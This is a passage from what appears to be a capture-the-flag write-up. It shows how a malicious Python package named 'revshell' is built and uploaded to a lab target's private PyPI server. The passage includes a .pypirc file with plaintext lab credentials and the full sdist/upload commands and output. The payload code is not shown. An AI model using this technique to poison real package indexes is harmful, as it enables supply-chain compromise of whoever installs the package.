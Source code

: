     

There’s now an archive in the `dist` directory:

    
    
    root@kali# ls -l dist/
    total 4
    -rwxrwx--- 1 root vboxsf 943 Jul 13 07:10 revshell-0.0.1.tar.gz
    

#### Remote PyPI

To package for a remote PyPI, I’ll create `~/.pypirc`, where I’ll define the
server, including the authentication:

    
    
    [distutils]
    index-servers =
      sneaky
    [sneaky]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
    

Now I can run `setup.py` to upload to this server using the `upload` command.
In fact, it’s required to create the package and upload it in the same run. If
I just try to `upload`, it complains:

    
    
    root@kali# python setup.py upload -r sneaky
    running upload
    error: Must create and upload files in one command (e.g. setup.py sdist upload)
    

But if I `sdist` and `upload`, it works:

    
    
    root@kali# python setup.py sdist upload -r sneaky
    running sdist
    running egg_info
    writing revshell.egg-info/PKG-INFO
    writing top-level names to revshell.egg-info/top_level.txt
    writing dependency_links to revshell.egg-info/dependency_links.txt
    reading manifest file 'revshell.egg-info/SOURCES.txt'
    writing manifest file 'revshell.egg-info/SOURCES.txt'
    running check
    creating revshell-0.0.1
    creating revshell-0.0.1/revshell.egg-info
    copying files to revshell-0.0.1...
    copying README.md -> revshell-0.0.1
    copying setup.cfg -> revshell-0.0.1
    copying setup.py -> revshell-0.0.1
    copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
    copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
    Writing revshell-0.0.1/setup.cfg
    Creating tar archive
    removing 'revshell-0.0.1' (and everything under it)
    running upload
    Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
    Server response (200): OK
    